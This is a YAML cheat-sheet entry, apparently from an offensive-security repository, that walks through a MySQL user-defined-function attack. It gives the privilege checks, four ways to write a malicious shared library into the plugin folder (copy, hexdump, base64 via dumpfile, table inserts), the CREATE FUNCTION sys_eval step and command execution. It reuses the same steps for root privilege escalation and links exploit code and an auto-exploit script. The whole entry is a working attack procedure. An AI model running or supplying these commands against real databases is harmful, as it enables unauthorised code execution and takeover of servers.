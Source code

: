 ```yaml
---
functions:
  gain-access:
    - description: Create a user-defined function to pop a shell in teh context of the mysql user
      code: |
        Create a user-defined-function
        -------------------------------
        - [ ] Do you have write privileges to the db?
        - [ ] Is mysql running as root?
        - [ ] Can you locate the plugin folder?

        SHOW GRANTS;  <-- show privileges
        SHOW VARIABLES;  <-- find the plugin directory  (blank can mean default location of /usr/lib/)

        ===== STEP 1 =====
        Get your udf.so into the plugin folder

        Method 1: copy 
          Copy the udf.so into the plugin folder
          
        Method 2: perform a hexdump
          od -A n -t x1 lib_mysqludf_sys.so | sed 's/ *//g' | tr -d '\n' | xclip
          select <hex> into dumpfile "<plugin folder>/udf.so";

        Method 3: perform a base64 encoded  (IF MARIADB 5.6+)
          base64 <file> -w 0 > <file>.b64
          base64 -w 0 myudf.so > myudf.b64
          cat <file>.b64 | xclip

          set @lib = "<base64>";
          select from_base64(@lib) into dumpfile "<plugin folder>/udf.so";

        Method 4: transfer file via table inserts  (easiest)
          create table foo(line blob);insert into foo values(load_file('/tmp/myudf.so'));select * from foo into dumpfile "<plugin folder>/udf.so";

        ===== STEP 2 =====
        Create the user-defined function

        create function sys_eval returns string soname 'myudf.so';  (the function name may change depending on your UDF.so library)

        ===== STEP 3 =====
        Code execution

        select sys_eval('id');
        
  privilege-escalation:
    - description: Create a user-defined function to escalate privileges via mysql running as root
      code: |
        # Same as gain access

resources : |
  https://www.exploit-db.com/exploits/50236
  https://www.exploit-db.com/papers/44139/
  https://github.com/mysqludf/lib_mysqludf_sys  <-- this is the udf file I used
  https://github.com/MidnightSeer/scripts/blob/master/auto-udf.sh  <-- auto exploit, do not use unless you understand all of the above
---
```


